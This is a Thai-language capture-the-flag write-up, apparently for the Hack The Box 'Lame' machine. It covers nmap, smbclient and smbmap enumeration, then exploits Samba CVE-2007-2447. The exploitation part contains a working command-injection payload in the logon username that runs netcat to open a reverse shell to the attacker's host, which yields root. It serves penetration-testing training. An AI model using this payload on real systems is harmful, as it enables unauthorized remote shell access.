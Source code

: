 layout: secret_post
title:  "Test Encrypt"
date:   2019-01-01 00:00:00
key: "my_secret_key"

# [](#header-1)Info card
![](https://gblobscdn.gitbook.com/assets%2F-MHuMmzGhYGjfRNXyWFK%2F-MHvl49IgHnk-WKCt0u6%2F-MHvlnxDfRBJsqRVouf_%2Fimage.png?alt=media&token=992ad801-c46c-4ffb-9e02-1a2cab97283a)

# [](#header-1)Enumeration
```
nmap -sC -sV -Pn -oA  nmap/Lame_fullscan 10.10.10.3
```

## [](#header-2)Nmap scan result
```
Nmap scan report for 10.10.10.3
Host is up (0.030s latency).
Not shown: 996 filtered ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.6
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp  open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
|_smb-security-mode: ERROR: Script execution failed (use -d to debug)
|_smb2-time: Protocol negotiation failed (SMB2)
```

### Por lists:
*   <b>Port 21</b> : เป็น FTP protocol โดยจากในผลการแสกน Nmap เราจะเห็นได้ว่าเป็น version  vsftpd 2.3.4 โดยเราจะเห็นว่ามันสามารถเข้าสู่ระบบแบบ anonymous ได้
*   <b>Port 22</b> : เป็น secure shell โดยมี version เป็น OpenSSH 4.7p1
*   <b>Port 139</b> กับ 445 : เป็น SMB Protocol เอาไว้สำหรับแชร์ไฟล์ต่างๆโดย

## [](#header-2)UDP Enumeration scan
```
nmap -sU -O -p- -oA nmap/udp 10.10.10.3
```

Nmap UDP scan result:
```
Nmap scan report for 10.10.10.3
Host is up (0.028s latency).
Not shown: 65531 open|filtered ports
PORT     STATE  SERVICE
22/udp   closed ssh
139/udp  closed netbios-ssn
445/udp  closed microsoft-ds
3632/udp closed distcc
Too many fingerprints match this host to give specific OS details
Network Distance: 2 hops
```

## [](#header-2)FTP (Port 21) Enumeration
```
ls /usr/share/nmap/scripts/ftp*
```

![](https://gblobscdn.gitbook.com/assets%2F-MHuMmzGhYGjfRNXyWFK%2F-MHuOCv8G7qwMc-cC8z-%2F-MHubWdy9-hoopvsWogz%2Fimage.png?alt=media&token=adf076b2-212c-4d2c-b9a8-b1e7504f11ec)

หลังจากนั้นลองรันคำสั่งไปที่ Port 21 ดูเพื่อเช็คว่ามันมีช่องโหว่หรือไม่

```
nmap --script ftp-vsftpd-backdoor -p 21 10.10.10.3
```

![](https://gblobscdn.gitbook.com/assets%2F-MHuMmzGhYGjfRNXyWFK%2F-MHuOCv8G7qwMc-cC8z-%2F-MHuc6Zl1Cxxj5SXtv9K%2Fimage.png?alt=media&token=6331cc41-6f29-49ef-bd3c-8bf7727b4da0)

จากผลของ Nmap สรุปคือไม่มี ช่องโหว่ทำไรต่อไม่ได้แล้วงั้นเราจะไปดูกันที่ Protocol อื่นกันต่อ

## [](#header-2)SSH (Port 22) Enumeration
```
ls /usr/share/nmap/scripts/ssh*
```

## [](#header-2)SMB (Port 139, 445) Enumeration

เราจะใช้ SMB client ในการเข้าถึง SMB Server โดยเราจะใช้คำสั่งด้านล่างดังต่อไปนี้
```
smbclient -L 10.10.10.3
```

* <b>-L</b> : แสดงบริการที่มีอยู่บนเซิฟเวอร์ 

แต่หลังจากที่ลองรันไปก็พข้อความ Error 
```
protocol negotiation failed: NT_STATUS_CONNECTION_DISCONNECTED
```

วิธีแก้คือไปแก้ไข config ใน <b>smb.conf</b>
```
sudo gedit /etc/samba/smb.conf
```

หลังจากนั้นให้เราเพิ่ม  client max protocol = NT1  กับ client min protocol = NT1 เข้าไปในส่วน [global]

![](https://gblobscdn.gitbook.com/assets%2F-MHuMmzGhYGjfRNXyWFK%2F-MHutFwjHjtxX-Z_RUir%2F-MHuw_VCFpGa87iXaJ6c%2Fimage.png?alt=media&token=ffaba264-f49a-4467-874f-95edd4951625)

หรืออาจจะใช้คำสั่งนี้แทนก็ได้ 

```
smbclient -L //10.10.10.3/ --option='client min protocol=NT1'
```
จากนั้นผลลัพธ์ที่ได้จะออกมาลักษณะนี้

![](https://gblobscdn.gitbook.com/assets%2F-MHuMmzGhYGjfRNXyWFK%2F-MHutFwjHjtxX-Z_RUir%2F-MHuxEorqxMaV-NDsEIg%2Fimage.png?alt=media&token=5c34c0a6-ff4e-485e-96be-90f620822eab)

เราสามารถตรวจสอบ permission ของเราได้โดยใช้คำสั่งนี้ 
```
smbmap -H 10.10.10.3
```

ผลลัพธ์ที่ได้
```
[+] Finding open SMB ports....
[+] User SMB session established on 10.10.10.3...
[+] IP: 10.10.10.3:445  Name: 10.10.10.3                                        
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        tmp                                                     READ, WRITE     oh noes!
        opt                                                     NO ACCESS
        IPC$                                                    NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
        ADMIN$                                                  NO ACCESS       IPC Service (lame server (Samba 3.0.20-Debian))
```

จะเห็นว่าในโฟลเดอร์ tmp เรามีสิทธิ์ที่จะ READ กับ WRITE ได้

## [](#header-2)distcc v1 (Port 3632) Enumeration
```
nmap --script distcc-cve2004-2687 -p 3632 10.10.10.3
```

Nmap scan result:
```
Nmap scan report for 10.10.10.3
Host is up (0.029s latency).

PORT     STATE SERVICE
3632/tcp open  distccd
| distcc-cve2004-2687: 
|   VULNERABLE:
|   distcc Daemon Command Execution
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2004-2687
|     Risk factor: High  CVSSv2: 9.3 (HIGH) (AV:N/AC:M/Au:N/C:C/I:C/A:C)
|       Allows executing of arbitrary commands on systems running distccd 3.1 and
|       earlier. The vulnerability is the consequence of weak service configuration.
|       
|     Disclosure date: 2002-02-01
|     Extra information:
|       
|     uid=1(daemon) gid=1(daemon) groups=1(daemon)
|   
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2004-2687
|       https://distcc.github.io/security.html
|_      https://nvd.nist.gov/vuln/detail/CVE-2004-2687
```

# [](#header-1)Exploitation

## [](#header-2)Method 1 SMB using username field vuln

โดยหลังจากลองค้นหาข้อมูลดูก็พบว่ามันมีช่องโหว่จาก [CVE-2007-2447](https://www.cvedetails.com/cve/CVE-2007-2447/) ซึ่งแน่นอนว่ามันมี Metasploit module อยู่แต่ถ้าเป็นการสอบ OSCP เราจะสามารถใช้ Metasploit ได้แค่ครั้งเดียวในการสอบเท่านั้นเพราะอย่างนั้นจึงควรหลีกเลี่ยงการใช้ให้มากที่สุดเท่าที่จะทำได้

ในส่วนของ PoC ของช่องโหว่นี้หากเราลองดูจาก source code
![](https://gblobscdn.gitbook.com/assets%2F-MHuMmzGhYGjfRNXyWFK%2F-MHutFwjHjtxX-Z_RUir%2F-MHvBNRsWgIb0dqmGkfY%2Fimage.png?alt=media&token=8202355a-ddd9-47ca-8da9-10ac1b1f58ea)

จะเห็นว่าช่องโหว่นี้เกิดจาก username มีการรับ metacharacter ซึ่งในการที่รับ input เข้ามานั้นหมายความว่าเราสามารถป้อนอินพุตอะไรก็ได้ (arbitary commands) โดยมันจะทำการรันคำสั่งอะไรก็ได้ที่ผู้ใช้ป้อนเข้าไปโดยเราจะใช้ประโยชน์จากจุดนี้ในการทำ <b>reverse shell</b>

## [](#header-2)Reverse shell using nc
เราจะทำการเปิด port 4444 ในเครื่องของเราให้มันรอรับการเชื่อมต่อ จากเครื่องเป้าหมายโดยใช้คำสั่งนี้
```
nc -nlvp 4444
```

หลังจากนั้นเราจะใช้ smbclient เพื่อเชื่อมต่อไปที่โฟลเดอร์ <b>tmp</b> เพราะเรามีสิทธิในการ READ,WRITE ได้โดยใช้

### [](#header-3)Login to SMB client
```
smbclient //10.10.10.3/tmp
```

หลังจากที่เราเข้ามาแล้วมาแล้วตรงส่วนของ password เราไม่ต้องกรอกอะไร enter ได้เลยเพราะเนื่องจากเราเข้าใช้งานในฐานะของ <b>anonymous user</b>
![](https://gblobscdn.gitbook.com/assets%2F-MHuMmzGhYGjfRNXyWFK%2F-MHutFwjHjtxX-Z_RUir%2F-MHvSnuNYZoEUguZ6Leu%2Fimage.png?alt=media&token=eda01e16-d903-42c0-bcea-c88fc752dfc1)

## [](#header-2)Got Root
หลังจากนั้นเราจะเอา payload ที่ได้จาก PoC ด้านบนมาใช้เพื่อ excute command ให้มัน reverse shell มาที่เครื่องของเราโดยใช้คำสั่ง

```
logon "/=`nohup nc -nv 10.10.14.6 4444 -e /bin/sh`"
```
![](https://gblobscdn.gitbook.com/assets%2F-MHuMmzGhYGjfRNXyWFK%2F-MHutFwjHjtxX-Z_RUir%2F-MHvT9MKtBevt2RJT3ce%2Fimage.png?alt=media&token=df715f08-5261-4bb6-bd8a-9059b8c786ad)

หลังจากนั้นกลับมาดูที่ nc ที่เราเปิด port เอาไว้เราจะเห็นว่ามีการเชื่อมต่อเข้ามาจากเครื่องของเป้าหมายเรียบร้อยแล้วด้วยสิทธิ์ของ <b>root</b>
![](https://gblobscdn.gitbook.com/assets%2F-MHuMmzGhYGjfRNXyWFK%2F-MHutFwjHjtxX-Z_RUir%2F-MHvU1MqwpM2leeAgjOi%2Fimage.png?alt=media&token=51d9d02d-06bb-4ac5-99fa-005c0d878c94)
